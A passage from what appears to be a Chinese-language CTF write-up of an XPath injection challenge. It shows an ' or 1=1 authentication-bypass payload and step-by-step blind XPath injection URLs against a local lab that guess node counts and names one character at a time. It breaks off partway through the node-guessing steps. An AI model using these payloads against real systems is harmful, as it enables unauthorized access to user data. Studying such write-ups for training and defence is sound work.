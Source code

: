 ![image-20201129160625642](2020-HECTF-Write-up/image-20201129160625642.png)

怀疑是XXE，尝试了一会发现不是。
后来想到XPath注入(傻了，报错里有...)

XPath基础查询语句`//users/user[loginID/text()=’abc’ and password/text()=’test123’]`

这是一个XPath查询语句，获取loginID为abc的所有user数据，用户需要提交正确的loginID和password才能返回结果。如果黑客在 loginID 字段中输入：' or 1=1 并在 password 中输入：' or 1=1   就能绕过校验，成功获取所有user数据

`//users/user[LoginID/text()=''or 1=1 and password/text()=''or 1=1]`

具体不做阐述

---

**尝试XPath盲注**

一般步骤如下:

1.判断根下节点数:

`127.0.0.1/xpath/index.php?name=1' or count(/*)=1 or '1'='1&pwd=fake`

result: 1

2.猜解第一级节点:

`127.0.0.1/xpath/index.php?name=1' or substring(name(/*[position()=1]),1,1)='r' or '1'='1&pwd=fake`

`127.0.0.1/xpath/index.php?name=1' or substring(name(/*[position()=1]),2,1)='o' or '1'='1&pwd=fake`

...

result: root

3.判断root的下一级节点数:

`127.0.0.1/xpath/index.php?name=1' or count(/root/*)=2 or '1'='1&pwd=fake`

result: 2

4.猜解root的下一级节点:

`127.0.0.1/xpath/index.php?name=1' or substring(name(/root/*[position()=1]),1,1)='u' or '1'='1&pwd=fake`
